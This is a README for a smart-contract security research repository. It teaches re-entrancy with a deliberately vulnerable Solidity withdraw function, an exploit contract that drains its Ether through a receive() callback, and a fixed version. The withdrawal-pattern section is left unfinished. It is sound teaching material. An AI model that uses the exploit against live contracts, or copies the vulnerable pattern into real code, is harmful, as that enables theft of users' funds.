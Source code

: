# 🚧 WORK IN PROGRESS 🚧

# Security research

This repo aims to cover the most common security vulnerabilities in EVM smart contracts,
and provides a set of tools to help developers to find and fix them.
Vulnerabilities are categorized by their type, each type has an example of a vulnerable contract,
a fixed contract (proof) and an exploit to verify the vulnerability.

- [Re-entrancy](#reentrancy-attack)
- [Withdrawal Pattern](#withdrawal-pattern)

## ReEntrancy Attack

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy)

A re-entrancy attack can happen when the **Checks-Effects-Interactions** pattern is not
respected during contracts development.

- **Check**: Validate parameters before modifying the state

- **Effects**: Change the state

- **Interactions**: Call other contracts after storage has been updated accordingly

Every time an interaction is made, the cycle starts again.

### Vulnerable withdraw

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyVulnerable.sol)

```solidity
/**
 * @dev Function to withdraw your deposited funds **vulnerable - do not use**
 */
function withdraw() public {
  /**
   * @dev The interaction is made BEFORE the state update
   *      **wrong**
   */
  (bool success, ) = msg.sender.call{ value: balances[msg.sender] }('');

  /**
   * @dev Update the state
   *      **wrong**
   */
  if (success) balances[msg.sender] = 0;
}
```

### ReEntrancy Exploit

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyExploit.sol)

Contract to exploit the vulnerable contract, it can be used to drain the contract balance.
The receive function, fired on plain Ether transfers, is used to trigger the re-entrancy attack.

```solidity
/**
 * @dev Function to attack target contract
 */
function exploit() external payable {
  require(msg.value >= 1 ether);
  target.deposit{ value: 1 ether }();
  target.withdraw();
}

/**
 * @dev Function executed on plain Ether transfers
 */
receive() external payable {
  if (address(target).balance >= 1 ether) {
    target.withdraw();
  }
}
```

### ReEntrancy Proof

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyProof.sol)

This contract is free from re-entrancy attacks

```solidity
/**
 * @dev Function to withdraw your deposited funds
 */
function withdraw() public {
  /**
   * @dev Update the state
   */
  uint256 amount = balances[msg.sender];
  balances[msg.sender] = 0;

  /**
   * @dev The interaction is made AFTER the state update
   */
  (bool success, ) = msg.sender.call{ value: amount }('');

  /**
   * @dev Check if the interaction was successful
   */
  require(success, 'Transfer failed.');
}
```

## Withdrawal Pattern

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy)

A re-entrancy attack can happen when the **Checks-Effects-Interactions** pattern is not
respected during contracts development.

- **Check**: Validate parameters before modifying the state




## Installation

```bash
forge install
forge test
```
